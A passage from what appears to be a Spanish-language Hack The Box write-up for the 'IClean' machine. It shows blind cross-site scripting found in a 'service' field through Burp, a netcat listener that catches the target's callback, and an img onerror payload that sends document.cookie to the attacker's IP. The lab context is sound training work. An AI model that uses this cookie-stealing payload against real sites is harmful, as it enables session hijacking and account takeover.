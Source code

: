 Intercepta la solicitud con Burp y después de realizar algunas pruebas me di cuenta que es vulnerable a Cross-Site Scripting Blind en el campo `service`.


![](/assets/images/htb-writeup-IClean/burp.png)

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 80   
listening on [any] 80 ...
connect to [10.10.16.100] from (UNKNOWN) [10.10.11.12] 58812
GET / HTTP/1.1
Host: 10.10.16.100
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: */*
Referer: http://127.0.0.1:3000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

Para capturar la cookie, utilicé el siguiente payload codificado en URL:

```html
<img src=x onerror=document.location="http://10.10.16.100/xss-75.js?c="+document.cookie>
```

![](/assets/images/htb-writeup-IClean/burp2.png)
